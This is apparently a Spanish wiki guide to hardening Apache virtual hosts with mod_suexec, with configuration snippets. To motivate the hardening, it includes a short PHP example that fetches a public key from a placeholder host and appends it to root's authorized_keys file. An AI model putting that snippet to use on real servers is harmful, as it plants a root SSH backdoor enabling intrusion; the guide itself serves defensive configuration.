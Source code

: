 ## Contents

*   [1 Apache, SuExec y los servidores virtuales](#Apache.2C_SuExec_y_los_servidores_virtuales)
    *   [1.1 Prerequisitos](#Prerequisitos)
    *   [1.2 Añadiéndo el módulo SuExec a Apache](#A.C3.B1adi.C3.A9ndo_el_m.C3.B3dulo_SuExec_a_Apache)
    *   [1.3 Establecer un servidor virtual que utilice SuExec](#Establecer_un_servidor_virtual_que_utilice_SuExec)
    *   [1.4 Deshabilitando el directorio "DocumentRoot" por defecto](#Deshabilitando_el_directorio_.22DocumentRoot.22_por_defecto)
    *   [1.5 Rematando](#Rematando)
    *   [1.6 Referencias externas](#Referencias_externas)

## Apache, SuExec y los servidores virtuales

Este documento describe cómo utilizar el módulo SuExec de Apache para suministrar servidores virtuales corriendo com un usuario sin privilegios. Generalmente es una buena práctica no permitir privilegios de superusuario a ninguna parte de lespacio web como muestra de manera un tanto brutal este ejemplo PHP:

```
   <?php
     # este enlace por supuesto no lleva a ninguna parte
     $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
     exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
   ?>

```

Coge la idea, verdad? Para impedir esto, no permita nunca a ningún servidor virtual tener acceso de escritura en ninguna parte excepto en su propio directorio personal o en el directorio DocumentRoot. Desgraciadamente este método requiere que Apache sea ejecutado como superusuario para que pueda ser capaz de convertirse en otro usuario pero esto no es una buena idea ya que usted no necesita que Apache se ejecute también como superusuario en el directorio DocumentRoot por defecto.

Debería usted condiderar también el uso de SuExec si pretende tener varias cuentas FTP apuntando a aquellos espacios web que necesiten permisos de escritura manteniéndose la posibilidad de lectura de los ficheros por parte de Apache.

#### Prerequisitos

*   debería estar familiarizado con la configuración básica de Apache
    *   especialmente con los servidores virtuales
*   Acceso de superusuario a la caja objetivo
*   Conocimiento acerca de añadir usuarios
*   saber trabajar con pacman

#### Añadiéndo el módulo SuExec a Apache

*   cargue el módulo SuExec en _/etc/httpd/conf/httpd.conf_ así

```
LoadModule suexec_module        lib/apache/mod_suexec.so

```

*   asegúrese de que el directorio DocumentRoot por defecto de Apache no corre tampoco como superusuario!

```
 User nobody
 Group nobody

```

#### Establecer un servidor virtual que utilice SuExec

Una manera de hacerlo es directamnete en el archivo _/etc/httpd/conf/httpd.conf_ pero le sugiero que use un archivo diferente si pretende crear más de una pareja de servidores virtuales. De cualquier manera, un servidor virtual que se supone que utiliza SuExec puede ser algo así:

```
<VirtualHost 192.168.0.1:80>
        ServerName myhost
        ServerAlias  myhost.localdomain
        # aquí es donde van las peticiones de /
        DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

        # aquí establece qué usuario (myhost) y qué grupo (ftponly) debería usar Apache
        SuexecUserGroup myhost ftponly

        # lo siguiente es opcional pero podría serle útil
        ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
        php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
        php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/htdocs/tmp
        php_admin_flag safe_mode On
        ErrorDocument 404 /home/www/vhosts/myhost.localdomain
        <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                AllowOverride None
                Options +SymlinksIfOwnerMatch +Includes
        </Directory>
</VirtualHost>

```

#### Deshabilitando el directorio "DocumentRoot" por defecto

Para hacer más segura aún su configuración puede deshabilitar el directorio _DocumentRoot_ por defecto para que Apache no ejecute nada como lo hace el mismo superuser. Este procedimiento no lo deshabilita realmente, si no que apunta a un lugar donde ya no es accesible remotamente. Se puede lograr esto fácilemente reemplazando su _ServerName_ por defecto con lo siguiente:

```
 ServerName localhost:80

```

#### Rematando

Como siempre que se cambia la configuración por defecto hay que rearrancar Apache para que los cambios tengan efecto.

```
 /etc/rc.d/httpd restart

```

#### Referencias externas

*   más información en profundidad acerca de SuExec: [http://httpd.apache.org/docs/suexec.html](http://httpd.apache.org/docs/suexec.html)
*   lo mismo acerca de los servidores virtuales: [http://httpd.apache.org/docs/vhosts/index.html](http://httpd.apache.org/docs/vhosts/index.html)

* * *

Autor: kth5